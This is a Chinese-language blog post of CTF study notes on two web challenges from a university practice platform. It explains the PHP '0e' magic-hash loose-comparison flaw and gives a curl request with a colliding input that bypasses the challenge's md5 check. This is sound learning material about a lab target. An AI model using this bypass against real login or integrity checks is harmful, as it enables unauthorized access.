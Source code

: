 ```yaml
---
layout: "post"
title:  "信息安全学习笔记 - 南邮攻防平台 CG CTF Web"
subtitle: "最近南邮登录不上去了，原因不清楚"
date:   2020-04-12 23:00:38 +0800
catalog: true
toc: true
categories: 
  - blog 
tags:
  - web
---
```


# 问题

## 签到题

点开题目右键检查元素可以找到在a标签里面display属性为none的文本。

## [md5 collision](http://chinalover.sinaapp.com/web19/)
源代码要求两个输入的md5一致。
```php
# Source
$md51 = md5('QNKCDZO');
$a = @$_GET['a'];
$md52 = @md5($a);
if(isset($a)){
if ($a != 'QNKCDZO' && $md51 == $md52) {
    echo "nctf{*****************}";
} else {
    echo "false!!!";
}}
else{echo "please input a";}
```

```shell
echo -n QNKCDZO | md5sum
# 0e830400451993494058024219903391  -
```
巧合在于`QNKCDZO`的md5恰好是一个科学记数法表示的字符串而且值为0。使用`==`时，如果是这类字符串和一个数字比较，或者两个都是这类字符串，PHP会把这类字符串转换成浮点数。如果恰好输入参数a的md5值恰好也是一个科学记数法表示的0，那么验证的逻辑就会被绕过了。

```shell
curl http://chinalover.sinaapp.com/web19/?a=s214587387a
```

javascript里也存在类似的问题，区别在于如果两个都是字符串则不会转换

```javascript
0e111 == '0e12345'  // true
'0E111' == '0e12345' // false
```
